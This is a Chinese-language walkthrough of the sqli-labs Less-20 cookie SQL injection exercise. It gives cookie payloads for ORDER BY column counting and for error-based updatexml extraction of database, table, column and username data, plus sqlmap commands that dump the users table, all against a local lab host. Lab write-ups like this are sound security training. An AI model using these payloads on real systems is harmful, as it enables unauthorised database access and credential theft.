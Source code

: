 ```yaml
---
title: less20
url: https://www.yuque.com/u29002979/ep2zrx/yc18zmyfnsngbbzu
---
```


```bash
$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1";
```

登录之后发现有很明显的**cookie**提示

> YOUR USER AGENT IS : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36
> YOUR IP ADDRESS IS : 192.168.31.119
> DELETE YOUR COOKIE OR WAIT FOR IT TO EXPIRE
> YOUR COOKIE : uname = admin and expires: Wed 16 Nov 2022 - 19:23:44
> Your Login name:admin
> Your Password:admin
> Your ID:8

登录之后刷新页面，一定要保证cookie还在存在的前提下进行抓包 &#x20;
`uname = admin' order by 3-- +`
`uname=admin' order by 4-- +`

> Issue with your mysql: Unknown column '4' in 'order clause'

3个字段数 <a name="NTGzZ"></a>

# 报错注入

<a name="X6iZN"></a>

## 爆破数据库名

`uname=admin' union select 1,2,updatexml(1,concat(0x7e,database(),0x7e),1)--+` <a name="DoliG"></a>

## 爆破数据表名

`uname=admin' union select 1,2,updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e),1)--+` <a name="zblHG"></a>

## 爆破字段名

`uname=admin' union select 1,2,updatexml(1,concat(0x7e,(select (column_name) from information_schema.columns where table_name='users' limit 8,1),0x7e),1)-- +` <a name="IHMXL"></a>

## 爆破字段

`uname=admin' union select 1,2,updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1)-- +`

<a name="Ea4Mq"></a>

# sqlmap cookie注入

```bash
POST /less-20/index.php HTTP/1.1
Host: 192.168.31.193
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36
Origin: http://192.168.31.193
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.193/less-20/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uname=admin*
Connection: close
```

打上*  level 等级2

```bash
检测注入点
sqlmap -r 3.txt --batch --level 2
爆破数据库名
sqlmap -r 3.txt --batch --level 2 --current-db
爆破数据表名
sqlmap -r 3.txt --batch --level 2 -D "security" --tables
爆破字段内容
sqlmap -r 3.txt --batch --level 2 -D "security" -T "users" --dump
```

